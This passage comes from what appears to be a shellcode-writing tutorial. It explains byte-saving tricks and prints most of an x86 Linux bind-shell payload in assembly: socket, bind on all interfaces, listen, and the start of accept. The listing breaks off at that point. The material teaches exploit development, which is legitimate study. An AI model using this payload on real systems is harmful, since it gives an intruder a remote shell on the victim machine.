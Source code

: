 Lastly, we don't need to call "////bin/bash" right? We can also use "//bin/sh", which saves a full instruction:
```asm
; Before:
push 0x68736162 ; "hsab"
push 0x2f6e6962 ; "/nib"
push 0x2f2f2f2f ; "////"

; After:
push 0x68732f6e     ; "hs/n"
push 0x69622f2f     ; "ib//"
```

With a few more optimizations, we end up with the following shellcode:
```asm
section .text
global main

main:
    xor edx, edx        ; Zero-out EDX for later use
    xor edi, edi        ; Zero-out EDI
    xor edi, 0x66       ; Set 0x66 in EDI for later

    ; sockfd = socket(PF_INET, SOCK_STREAM, 0)
    mov eax, edi        ; SYS_SOCKETCALL
    mov ebx, edx        ; Zero-out EBX
    mov bl, 0x1         ; SYS_SOCKET
    push edx            ; 0
    push byte 0x1       ; SOCK_STREAM
    push byte 0x2       ; PF_INET
    mov ecx, esp        ; Address of socket arguments
    int 0x80            ; Exec syscall

    ; We need the result later
    mov esi, eax        ; Store ref to sockfd in ESI

    ; bind(sockid, struct addr, addrlen)
    mov eax, edi        ; SYS_SOCKETCALL
    inc ebx             ; SYS_BIND
    ; Setup struct addr
    push edx            ; 0.0.0.0 (this is why we needed EDX at line 5)
    sub esp, 2          ; Move ESP so we don't overwrite ip-addr
    mov byte [esp], 0x1c    ; Push first byte of port
    mov byte [esp+1], dl    ; Push second byte of port
    push word 0x2       ; AF_INET
    mov ecx, esp        ; Store struct in ECX
    ; Setup bind arguments
    push 0x10           ; Length addr (16)
    push ecx            ; Struct addr
    push esi            ; Ref to sockfd
    mov ecx, esp        ; Address of bind arguments
    int 0x80            ; Exec syscall

    ; listen(sockid, 2)
    mov eax, edi        ; SYS_SOCKETCALL
    push ebx            ; Argument "2"
    inc ebx             ; SYS_LISTEN
    inc ebx             ; (2 bytes instead of 3 for "add ebx, 0x2")
    ; Setup arguments
    push esi            ; Ref to sockid
    mov ecx, esp        ; Address of listen arguments
    int 0x80            ; Exec syscall

    ; socketid = accept(sockfd, null, null)
    mov eax, edi        ; SYS_SOCKETCALL
```